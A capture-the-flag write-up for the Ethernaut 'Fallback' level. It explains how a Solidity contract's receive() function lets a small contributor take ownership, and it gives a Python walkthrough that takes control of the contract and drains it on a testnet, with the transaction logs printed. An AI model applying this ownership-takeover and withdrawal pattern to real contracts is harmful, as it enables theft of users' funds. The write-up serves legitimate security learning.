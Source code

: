 # 01 - Fallback

## Challenge

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Summary

The goal is to claim ownership of the contract and reduce its balance to 0. The given contract, when deployed, will set the owner to the deployer (Ethernaut) and give them 1000 ether. There are two places where the owner can be changed:

```js
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

Each time we can contribute less than 0.001 ether, and we can only become owner if our contribution is greater than 1000 ether. This is infeasible. The other place is in the fallback function:

```js
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

I read a [nice article](https://coinsbench.com/solidity-17-payable-fallback-and-receive-d24b9f7d355f) explaining `payable`, `fallback()` and `receive()` in Solidity. To summarize,

- `payable` is a modifier that allows a function to receive ether
- `fallback()` is a function that is called when a contract receives an external message call that doesn't match any of the functions in the contract
- `receive()` is similar to the fallback function, but it is designed specifically to handle incoming ether without the need for a data call

They also put a nice flowchart to explain the conditions:

```
        Ether sent to contract
                |
          msg.data empty ?
               / \
             yes  no
            /      \
receive() exists?   fallback()
          / \
        yes  no
        /     \
  receive()  fallback()
```

In our scenario, due to `require(msg.value > 0 && contributions[msg.sender] > 0)`, we can exploit by

1. Call `contribute()` with a small amount of ether
2. Transfer some ether to the contract from our account -> `receive()` is called -> we become the owner
3. Call `withdraw()` to transfer the contract's balance to our account

## Walkthrough

We choose to use `cheb3` throughout the levels.

Include imports:

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import encode_with_signature
```

Connect to our account and the contract:

```py
>>> conn = Connection("https://bitter-purple-general.ethereum-goerli.discover.quiknode.pro/<key>")
>>> account = conn.account("<priv_key>")
# Chrome Devtool Console
# > contract.address
# < '0x26222F0D8E10362abB51729E84CEE7F0dDADAD66'
>>> contract_addr = "0x26222F0D8E10362abB51729E84CEE7F0dDADAD66"
```

Call `contribute()` with a small amount of ether: (Note convertion from ether to wei)

```py
>>> account.send_transaction(contract_addr, data=encode_with_signature("contribute()"), value=int(0.0001*10**18))
2023-06-03 09:38:11.665 | INFO     | cheb3.account:send_transaction:103 - Transaction to 0x26222F0D8E10362abB51729E84CEE7F0dDADAD66: 0x277818cd99b60d1457dfbe4159f8df99305dd03fe0dc7757ab5bba2f3ac59cae
AttributeDict({'blockHash': HexBytes('0x6e2cdb15d4aa1fc5f1f9b92d0182056be23f9036c390e835bd3635d2a96ca7c1'), 'blockNumber': 9115745, 'contractAddress': None, 'cumulativeGasUsed': 8824980, 'effectiveGasPrice': 514869820, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 47965, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x26222F0D8E10362abB51729E84CEE7F0dDADAD66', 'transactionHash': HexBytes('0x277818cd99b60d1457dfbe4159f8df99305dd03fe0dc7757ab5bba2f3ac59cae'), 'transactionIndex': 30, 'type': 0})
```

Now on Devtool, `await contract.getContribution().then(v => v.toString())` gives 100000000000000 (wei) as expected. Now transfer some ether to the contract from our account:

```py
>>> account.send_transaction(contract_addr, value=int(0.0001*10**18), gas_price=410089104)
2023-06-03 09:43:30.725 | INFO     | cheb3.account:send_transaction:103 - Transaction to 0x26222F0D8E10362abB51729E84CEE7F0dDADAD66: 0x366d6da8fe75af82a807495c0709298457a559224772630eea957286e931e636
AttributeDict({'blockHash': HexBytes('0x28aa01c3caf877a9ae042b59c547ac67b551144393f546eec4d3e3ae59b13402'), 'blockNumber': 9115770, 'contractAddress': None, 'cumulativeGasUsed': 5576048, 'effectiveGasPrice': 410089104, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 28302, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x26222F0D8E10362abB51729E84CEE7F0dDADAD66', 'transactionHash': HexBytes('0x366d6da8fe75af82a807495c0709298457a559224772630eea957286e931e636'), 'transactionIndex': 32, 'type': 0})
```

`await contract.owner()` gives '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB' which is our own account. Here I'm forced to set a custom gas price because my HTTP endpoint's default is low. infura seems to be better in this regard. I also obtained an infura endpoint `https://goerli.infura.io/v3/<key>` and will be using it in the future.

Now we just need to withdraw:

```py
>>> account.send_transaction(contract_addr, data=encode_with_signature("withdraw()"), gas_price=400829420)
2023-06-03 09:45:12.006 | INFO     | cheb3.account:send_transaction:103 - Transaction to 0x26222F0D8E10362abB51729E84CEE7F0dDADAD66: 0x1212d8dc4ace451be415a31661a86886f89443e1034ddeeaf3d3f96e56805060
AttributeDict({'blockHash': HexBytes('0xcfc62f486121055c4bf4ccbbf995c0daba1b93ae0ccd0fad23dbd6b60aae8e8c'), 'blockNumber': 9115777, 'contractAddress': None, 'cumulativeGasUsed': 10893027, 'effectiveGasPrice': 400829420, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 30364, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x26222F0D8E10362abB51729E84CEE7F0dDADAD66', 'transactionHash': HexBytes('0x1212d8dc4ace451be415a31661a86886f89443e1034ddeeaf3d3f96e56805060'), 'transactionIndex': 53, 'type': 0})
```

Submit the instance to pass the level.